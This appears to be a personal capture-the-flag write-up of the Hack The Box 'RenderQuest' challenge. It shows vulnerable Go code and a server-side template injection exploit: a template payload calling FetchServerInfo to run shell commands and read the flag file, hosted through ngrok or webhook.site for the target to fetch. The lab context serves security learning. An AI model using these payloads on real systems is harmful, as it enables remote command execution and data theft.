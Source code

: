 
2024-10-02 23:16

Source: #web #htb 

Tags: [[Server-side template injection (SSTI)]]
## Reconnaissance

We notice the `go` source code that seems to execute code from remote templates.

```go
	if remote == "true" {
			tmplFile, err = readRemoteFile(page)
	
			if err != nil {
				http.Error(w, "Internal Server Error", http.StatusInternalServerError)
				return
			}
		} else {
165			tmplFile, err = readFile(TEMPLATE_DIR+"/"+page, "./")
	
			if err != nil {
				http.Error(w, "Internal Server Error", http.StatusInternalServerError)
				return
			}
		}
	
180		tmpl, err := template.New("page").Parse(tmplFile)
		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
	
		err = tmpl.Execute(w, reqData)
		if err != nil {
			http.Error(w, "Internal Server Error", http.StatusInternalServerError)
			return
		}
```
The function `readRemoteFile` allows the application to fetch a remote resource 
**Notice how this function does not do any sort of sanitization and simply fetches & returns the contents of the remote page**

On **line 180** a new template is generated and displayed using the contents of `tmplFile`, which we control through the `page`query parameter. This essentially exposes the application to **SSTI** because we could host a harmful file for the application to fetch and render.

We also notice that there is a method that executes system commands.

```go
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}
```
## Foothold

We can create a template file that executes commands on the server by using go templating code.

> To identify that the backend is using the Go template engine, you can utilize the following payloads:
> 
> - `{{ . }}`: Represents the data structure passed as input to the template.
>     - If the passed data is an object with an attribute, you can use `{{ .Attribute_name_here }}` to leak it.
> - `{{ printf "%s" "printing text" }}`: you can also call print or other methods.
> 
> [(source)](https://www.onsecurity.io/blog/go-ssti-method-research/)

In this case, we can call the method that allows us to execute commands on the server via `{{.FetchServerInfo "command_here"}}`.

First, we need to create a template file that we will serve by setting up our server.
```shell
$ cat exploit.tpl 
{{.FetchServerInfo "ls -lah"}}
```
We set up server in the directory where the template file is located.
``` shell
$ python3 -m http.server 80
```

And set up `ngrok` for outside access as we are not connected through a vpn.
``` shell
$ ngrok http http://localhost:80
```
get the [[ngork]] URL and append our file name to it and add it in the input field of the website 

## Alternate 

instead of using ngork to create the URL we could also use the website https://webhook.site/#!/
click `Edit` on the right hand side of the top ribbon 
change the content to `{{.FetchServerInfo "cat ../flag154d8430d7.txt"}}` and hit save
click `copy` which to the left of `Edit` and click `URL` 
then add this URL in the victim website 

### References
https://app.hackthebox.com/challenges/RenderQuest

walkthrough - 
https://vulnerable.sh/posts/htb_renderquest/
https://henri-demanou.medium.com/htb-renderquest-3fa19d67f58d
https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83 - (uses` webhook.site`)
https://exploit-notes.hdks.org/exploit/web/go-ssti/?source=post_page-----3fa19d67f58d--------------------------------